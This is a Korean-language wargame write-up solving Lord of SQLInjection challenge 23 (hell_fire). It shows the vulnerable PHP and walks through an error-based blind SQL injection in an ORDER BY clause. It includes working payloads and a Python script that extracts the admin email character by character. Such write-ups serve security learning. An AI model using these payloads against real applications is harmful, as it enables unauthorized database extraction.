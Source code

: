 ```yaml
---
title: "[LOS] 23번 문제 풀이(hell_fire)"
categories:
  - los
tags:
  - los
  - rubiya
  - los 23번
  - los hell_fire

  
toc: true
toc_sticky: true
toc_label: "23번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/sql.png
---
```


💡 los.rubiya.kr 23번 문제에 대한 풀이입니다.
{: .notice--warning}



# 23번(hell_fire)
## 문제
![image](https://user-images.githubusercontent.com/33647663/158282940-1337ec7e-8b07-48b7-84f5-744778543dc3.png)


```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|proc|union/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_hell_fire where 1 order by {$_GET[order]}";
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysqli_query($db,$query);
  while(($result = mysqli_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_hell_fire where id='admin' and email='{$_GET[email]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("hell_fire");
  highlight_file(__FILE__);
?>
```

## 풀이
이번 문제는 입력 값이 order by 절에 입력이 됩니다. 처음에 시도한 방법은 if(조건문,1,3) 방식으로, 조건문의 결과가 참이면 1, 거짓이면 3이 출력되게 하여 조건문의 결과를 판단하려고 했습니다.

다음과 같이 order by 1과 3의 결과가 다르기 때문에, if 문을 이용하면 될 거라 생각했습니다.

![image](https://user-images.githubusercontent.com/33647663/158283362-e98798e8-eed6-4411-b7f8-36bd1c8e084a.png)

---

![image](https://user-images.githubusercontent.com/33647663/158283384-49d90fc4-6ab1-43bd-9126-15be0fedeafa.png)



하지만 이유는 잘 모르겠는데, order by 절 뒤에는 서브쿼리나, 함수가 사용되면 결과 값과 상관없는 결과가 나옵니다. 예를 들어 if(1=1,1,2) 라고 하면 1이 반환될거라 생각했지만, 제가 생각하는 방식대로 처리되지 않고, 결과와 상관없이 일정하게 출력이 됩니다.
-> **if(1=1,1,2) 나 if(1=1,1000,2)나 출력결과가 같음**

그래서 이번 문제도 error based 방식으로 접근해 봤습니다.

차이가 나는 점은 오류가 발생하지 않으면 결과가 출력되고, 서브 쿼리 내에서 오류가 발생하면 결과가 출력되지 않는다는 점이었습니다.

1. order=(select 1 where if(1=1,1,pow(12341234,12341234)))

![image](https://user-images.githubusercontent.com/33647663/158284038-4d57481f-6e6f-4a0c-a519-fe46442ec390.png)

-> **조건문이 참일때는, 1이 선택되어서 오류가 발생하지 않아서 테이블이 출력됩니다.**

2. order=(select 1 where if(1=2,1,pow(12341234,12341234)))

![image](https://user-images.githubusercontent.com/33647663/158284153-774f74ac-dde1-4c4e-b1ca-593fba8eab10.png)

-> **조건문이 거짓일때는, pow(12341234,12341234)가 선택되어 실행되기 때문에 오류가 발생하여 테이블이 출력되지 않습니다.**

이를 이용한 error based blind sql 코드입니다.

```python
import requests
import string

url = "https://los.rubiya.kr/chall/hell_fire_309d5f471fbdd4722d221835380bb805.php"
params={'order' : None}
cookies = {'PHPSESSID' :'1t87momi7f10m7tl6kkv6t0lob' }

# 이메일 길이
for i in range(30):
    payload="(select 1 where if(id='admin' and length(email)={},pow(12341234,12341234),1))".format(i)
    params['order'] = payload
    print(payload)
    response = requests.get(url,params=params,cookies=cookies)
    if("rubiya805@gmail.cm" not in response.text):
        print("find the pw_length",i)
        break

# 이메일 길이 28

email = ''
for i in range(1,29):
    for j in string.printable:
        payload="(select 1 where if(id='admin' and ascii(substr(email,{},1))={},pow(12341234,12341234),1))".format(i,ord(j))
        params['order'] = payload
        print(payload)
        response = requests.get(url,params=params,cookies=cookies)
        if("rubiya805@gmail.cm" not in response.text):
            email += j
            print("find the email",email)
            break

print(email)
```

![image](https://user-images.githubusercontent.com/33647663/158287577-ad9c44fe-0dc9-47e8-8a60-00ea4fc5820a.png)

![image](https://user-images.githubusercontent.com/33647663/158287614-dc4c60c0-8b7e-4948-b3e0-250e2c1d86d3.png)
